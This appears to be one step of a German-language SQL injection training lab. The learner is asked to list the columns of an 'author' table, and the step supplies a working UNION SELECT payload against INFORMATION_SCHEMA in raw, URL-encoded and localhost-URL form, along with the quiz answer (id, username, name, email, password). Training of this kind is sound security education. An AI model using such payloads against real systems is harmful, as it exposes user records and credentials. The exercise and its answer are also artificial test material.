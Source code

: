 Lesen Sie als Nächstes die Spaltennamen der Tabelle aus.

Tipp:
Sie benötigen `GROUP_CONCAT()` und `INFORMATION_SCHEMA.COLUMNS`.

Tipp 2:
https://dev.mysql.com/doc/refman/8.0/en/information-schema-innodb-columns-table.html

' AND 1=0 UNION SELECT 0,0,0,0,0,(SELECT GROUP_CONCAT(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='author'),0;--
'%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(COLUMN_NAME)%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME%3D'author')%2C0%3B--%20
http://localhost:82/index.php?id=2%27%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(COLUMN_NAME)%20FROM%20INFORMATION_SCHEMA.COLUMNS%20WHERE%20TABLE_NAME%3D%27author%27)%2C0%3B--%20

>>13) Welche Spalten enthält die Tabelle? Geben Sie die Spaltennamen in der Reihenfolge der Ausgabe und mit Leerzeichen getrennt an.<<
      === id username name email password